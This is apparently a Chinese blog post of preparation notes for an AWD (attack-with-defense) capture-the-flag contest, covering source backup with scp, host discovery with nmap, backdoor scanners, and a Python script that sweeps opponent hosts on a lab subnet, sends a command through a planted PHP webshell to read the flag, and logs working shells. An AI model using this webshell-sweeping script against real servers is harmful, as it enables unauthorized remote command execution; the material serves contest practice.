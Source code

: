 ```yaml
---
title: awd准备工作
date: 2018-08-21 10:32:18
tags:
password: awd-prepare
---
```


# 准备工作

## 源代码备份

* xftp

* scp

  > scp -r -P Port remote_username@remote_ip:remote_folder local_file
  >

## 主机发现

* nmap

  > nmap -sn 192.168.71.0/24

* httpscan

  > https://github.com/zer0h/httpscan

## 弱口令

## 预留后门

* D盾
* 河马j

后门利用脚本

```python
#coding=utf-8
import requests
url="http://192.168.71."
url1=""
shell="/Upload/index.php"
passwd="abcde10db05bd4f6a24c94d7edde441d18545" 
port="80"
payload = {passwd: 'system(\'cat /flag\');'}
f=open("webshelllist.txt","w") 
f1=open("firstround_flag.txt","w")
for i in [51,52,53,11,12,13,21,22,23,31,32,33,41,42,43,71,72,73,81,82,83]: 
    url1=url+str(i)+":"+port+shell
    try:
        res=requests.post(url1,payload,timeout=1)
        if res.status_code == requests.codes.ok:
            print url1+" connect shell sucess,flag is "+res.text
            print >>f1,url1+" connect shell sucess,flag is "+res.text
            print >>f,url1+","+passwd
        else:
            print "shell 404"
    except:
        print url1+" connect shell fail"
		
f.close()
f1.close()
```


